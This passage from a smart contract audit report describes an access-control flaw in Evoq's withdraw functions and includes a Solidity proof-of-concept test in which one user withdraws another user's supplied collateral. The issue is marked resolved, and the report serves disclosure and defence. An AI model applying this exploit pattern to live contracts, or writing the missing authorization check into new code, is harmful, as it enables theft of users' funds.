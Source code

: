 **Recommendation**:

Require msg.sender == _borrower or implement a robust delegation (e.g., signed approval) for on-behalf borrowing.
Disallow free-form _borrower unless proper authorization is enforced.

### Unrestricted “On-Behalf” Withdrawal

**Severity**: Medium

**Status**: Resolved

**Description (Contracts & Functions)**:

Evoq.sol → withdraw() / internal call _withdraw()
PositionsManager.sol → withdrawLogic()
These functions let the caller specify _supplier and _receiver with no checks confirming that msg.sender is _supplier or has _supplier’s consent. This can allow an attacker to withdraw another user’s supplied collateral to themselves.

**Scenario:**

Attacker calls withdraw(...) with _supplier = Victim and _receiver = Attacker.
The protocol sees Victim’s collateral, processes withdrawal, and sends tokens to the attacker.
Victim’s collateral is stolen with no action on Victim’s part.

**PoC: **
```solidity
   function testWithdraw1_Attack() public {
      uint256 amount = 10000 ether;
      uint256 collateral = amount;


       address bob = address(0x1234);
       address alice = address(0xdeff);
       console.log("Bob address:", bob);
       console.log("Alice address:", alice);
       deal(usdc, address(alice), INITIAL_BALANCE * WAD);
       uint256 aliceBalance = ERC20(usdc).balanceOf(address(alice));
       console.log(aliceBalance);
       vm.startPrank(alice);
       ERC20(usdc).approve(address(evoq), collateral);
       evoq.supply(vUsdc, collateral);




       uint256 bobBalance = ERC20(usdc).balanceOf(address(bob));
       console.log("Bob balance before Unauthorized Withdraw: ", bobBalance);


       vm.startPrank(bob);
       evoq.withdraw(vUsdc, collateral, alice, bob);


       bobBalance = ERC20(usdc).balanceOf(address(bob));
       console.log("Bob balance after Unauthorized Withdraw", bobBalance);


   }
```
In other words, if Alice supplies funds to the smart contract as a supplier, an unauthorized user Bob can withdraw her funds or collateral from the smart contract.
